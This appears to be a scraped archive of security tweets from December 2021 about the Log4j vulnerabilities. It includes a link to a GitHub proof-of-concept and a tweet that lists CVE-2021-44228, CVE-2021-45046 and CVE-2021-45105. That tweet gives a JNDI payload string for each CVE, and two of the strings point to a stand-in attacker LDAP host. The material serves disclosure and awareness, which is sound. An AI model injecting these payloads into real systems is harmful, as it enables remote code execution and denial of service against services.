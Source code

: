 <table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1472328116085399553 _at 2021-12-18 22:09:12_**
<blockquote>
GitHub - jas502n/Log4j2-CVE-2021-44228: Remote Code Injection In Log4j https://t.co/TxkfC4PThD
</blockquote>

* https://github.com/jas502n/Log4j2-CVE-2021-44228

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1472254703501258756 _at 2021-12-18 17:17:29_**
<blockquote>
📢 #Log4j Vulns ~

1) CVE-2021-44228 (RCE) - Critical
Payload: ${jndi:ldap://evil[.]com:1389/a}

2) CVE-2021-45046 (RCE) - Critical
Payload: ${jndi:ldap://127.0.0.1#evil[.]com:1389/a}

3) CVE-2021-45105 (DoS) - High
Payload: ${${::-${::-$${::-j}}}}

🛡️ https://t.co/5tGvl1URht https://t.co/FOyB1HcstQ
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+tweet_video_thumb+FG5_2F4XoAQGavF.jpg" alt="http://pbs.twimg.com/tweet_video_thumb/FG5_2F4XoAQGavF.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>431</code></td>
</tr></table>

---